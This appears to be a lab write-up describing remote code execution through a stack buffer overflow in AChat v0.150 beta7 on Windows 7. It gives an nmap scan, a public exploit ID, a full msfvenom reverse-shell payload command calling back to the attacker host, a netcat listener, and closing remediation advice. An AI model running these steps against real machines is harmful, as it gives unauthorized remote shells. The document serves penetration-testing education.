








# Remote Code Execution (RCE) – AChat v0.150 beta7 Buffer Overflow

---

## Target Information
- **Target OS:** Windows 7 Ultimate SP1 (32-bit)
- **Architecture:** x86
- **Initial Access Level:** Unauthenticated Remote User
- **Attack Type:** Remote Buffer Overflow (Memory Corruption)
- **Application:** AChat v0.150 beta7
- **Environment:** Lab / Authorized Test Only

---

## Overview
- **Vulnerability Type:** Stack-Based Buffer Overflow
- **Impact:** Remote Code Execution (RCE)
- **Access Level Gained:** Reverse Shell
- **Authentication Required:** No
- **User Interaction:** None
- **Result:** Full remote command execution on the target system

---

## Information Gathering & Enumeration
- **Tool Used:** Nmap
- **Command Executed:**  
  `nmap -A -T4 -p- 192.168.243.129`
- **Open Ports Identified:** 9255, 9256
- **Service Detected:** AChat chat system (httpd)
- **Operating System Identified:** Windows 7 Ultimate 7601 Service Pack 1

---

## Vulnerability Research
- **Tool Used:** Searchsploit
- **Vulnerability Found:** Remote Buffer Overflow
- **Affected Software:** AChat v0.150 beta7
- **Exploit ID:** 36025.py
- **Action Taken:** Exploit copied and renamed to `3.py`

---

## Payload Generation
- **Tool Used:** Msfvenom
- **Payload Type:** Reverse TCP Shell
- **Platform:** Windows
- **Architecture:** x86
- **Encoder Used:** x86/unicode_mixed
- **Bad Characters:** \x00 \x80 …
- **LHOST:** 192.168.243.128
- **LPORT:** 443
- **Command Used:**
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp
LHOST=192.168.243.128 LPORT=443
-e x86/unicode_mixed -b '\x00\x80...' BufferRegister=EAX -f python

---

## Exploit Customization
- **Exploit Language:** Python
- **File Name:** 3.py
- **Modification Performed:** Replaced `buf` variable with custom shellcode
- **Register Used:** EAX
- **Purpose:** Achieve reliable buffer overflow execution

---

## Listener Setup
- **Tool Used:** Netcat
- **Listening Port:** 443
- **Command Executed:**  
`nc -nvlp 443`
- **Status:** Waiting for incoming reverse shell

---

## Exploitation
- **Exploit Executed Using:** Python 2
- **Command Used:**  
`python2 3.py`
- **Result:** Buffer overflow triggered successfully
- **Shell Type:** Reverse Shell

---

## Post-Exploitation
- **Command Executed:** whoami
- **Result:** anka0x-pc\anka0x
- **Command Executed:** sysinfo
- **OS Build:** Windows 7 Build 7601
- **Privilege Level:** User

---

## Remediation & Mitigation
- **Software Update:** Replace AChat v0.150 with a secure alternative
- **Memory Protections:** Enable DEP and ASLR
- **Network Security:** Restrict access to ports 9255 and 9256
- **Secure Coding:** Implement proper input validation and bounds checking
- **Monitoring:** Deploy IDS/IPS for anomaly detection

---

👤 Author  Anka0X

## [LinkedIn:](https://www.linkedin.com/in/manka-sec/)
